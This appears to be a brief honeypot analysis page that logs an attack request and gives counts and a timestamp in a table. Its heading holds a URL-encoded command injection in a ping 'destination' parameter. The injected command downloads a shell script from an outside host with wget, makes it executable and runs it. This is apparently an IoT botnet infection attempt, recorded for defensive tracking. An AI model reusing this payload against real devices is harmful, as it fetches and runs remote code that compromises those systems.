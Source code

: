 # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://iotlmao.xyz/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 4 | 7 | | 220110-033754 |

## CVE: 